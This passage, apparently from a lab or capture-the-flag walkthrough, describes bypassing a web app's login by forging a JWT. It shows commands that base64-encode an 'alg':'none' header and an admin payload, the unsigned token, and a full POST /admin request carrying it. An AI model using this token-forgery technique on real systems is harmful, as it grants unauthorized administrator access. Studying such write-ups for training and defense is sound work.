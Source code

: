 Visiting it just shows us this:

<figure><img src="../../../.gitbook/assets/image (17) (1) (8).png" alt=""><figcaption></figcaption></figure>

Running scans against both of these directories show nothing. I checked the requests in Burp, and there are some allowed methods:

<figure><img src="../../../.gitbook/assets/image (8) (14).png" alt=""><figcaption></figcaption></figure>

We can send POST and OPTIONS requests to this, but we first need to modify our cookie. The JWT cookie has 3 parts, the encryption type, the actual data and the signature. Since we know there's a problem with the JWT, we can abuse this by replacing the encryption type and the payload:

```
$ echo -n '{"typ":"JWT","alg":"none"}' | base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
$ echo -n '{"id": "0","guest": "false","admin": true}' | base64
eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9
```

For the signature, since we did not specify an algorithm, we can leave it blank. The full token is thus:

{% code overflow="wrap" %}
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
```
{% endcode %}

We can then send an empty login request to generate a POST request in Burpsuite, and then modify it to include our JWT token:

```http
POST /admin HTTP/1.1
Host: 192.168.201.141:20202
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
Origin: http://192.168.201.141:20202
Connection: close
Referer: http://192.168.201.141:20202/
Cookie: session=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZLI2-g.jAwlyKLCDrUP8eKqrY5OqHx15j0; JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
Upgrade-Insecure-Requests: 1
```